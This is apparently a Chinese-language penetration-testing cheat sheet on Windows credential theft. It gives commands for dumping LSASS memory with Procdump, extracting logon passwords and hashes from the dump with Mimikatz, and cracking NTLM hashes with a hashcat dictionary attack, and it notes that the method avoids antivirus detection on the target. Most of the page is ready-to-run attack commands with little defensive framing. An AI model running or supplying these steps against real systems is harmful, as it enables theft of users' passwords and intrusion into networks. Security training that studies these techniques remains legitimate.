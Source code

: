 **利用工具破解hash值**

> Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash

## Procdump+Mimikatz配合获取

> Procdump 是Windows官方的一款exe工具，原理是用Procdump（不会被杀）工具在管理员的权限下生成一个dmp文件，然后利用Mimikatz从该dmp文件中读取密码，该方法不需要将Mimikatz工具放入目标主机，不用做免杀

```powershell
# 用管理员命令执行
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# 打开mimikatz工具
# 先权限提升
privilege::debug
#导入文件
sekurlsa::minidump lsass.dmp
#读取文件
sekurlsa::logonPasswords full
```

## hashcat破解获取Windows NTML HASH

> hashcat号称世界上最快的密码破解，世界上第一个和唯一的基于GPGPU规则引擎，免费多GPU（高达128个GPU），多哈希，多操作系统（Linux和Windows本地二进制文件），多平台（OpenCL和CUDA支持），多算法，资源利用率低，基于字典攻击，支持分布式破解等
>
> kali里面可以通过apt下载

准备工具

* 字典

```powershell
hashcat -a 0 -m 1000 hash file --force
```

基本参数

* -m 指定哈希类别，其值为数字

  | 数字 | 对应的hash |
  | :--: | :--------: |
  |  0   |    MD5     |
  | 100  |    SHA1    |
  | 1300 |  SHA2-224  |
  | 1400 |  SHA2-256  |
  | 3000 |     LM     |
  | 1000 |    NTLM    |

* -a 指定攻击模式，-a 0 字典攻击 -a 1 组合攻击 -a 3掩码攻击 
